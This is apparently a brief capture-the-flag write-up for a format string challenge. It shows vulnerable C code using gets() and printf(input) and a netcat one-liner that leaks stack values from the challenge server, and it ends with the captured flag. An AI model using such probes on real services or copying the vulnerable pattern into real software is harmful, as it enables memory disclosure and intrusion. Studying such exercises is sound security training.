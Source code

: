 We have this code
```
	char *input;
	char *flag = "REDACTED!";

	gets(input);
	printf(input);

```
printf outputs user input after 1 argument.This is a format string vulnerability.We can get the addresses of the underlying stacks using %x.And read strings at these addresses using %num_string$s
```
slonser@DESKTOP-0USDONC:/mnt/c/Users/Seva/Desktop/HACKERDOM/PWN$ python -c "print('%x.'*20)"| nc cyberyoddha.baycyber.net 10005
200000.ffffffff.8049189.1.ffa8d8b4.ffa8d8bc.804a008.ffa8d820.0.0.f7d07ee5.f7ed0000.f7ed0000.0.f7d07ee5.1.ffa8d8b4.ffa8d8bc.ffa8d844.f7ed0000.0
```
Run FormatS.py and get flag.
`cyctf{3xpl0!t_th3_f0rm@t_str!ng}`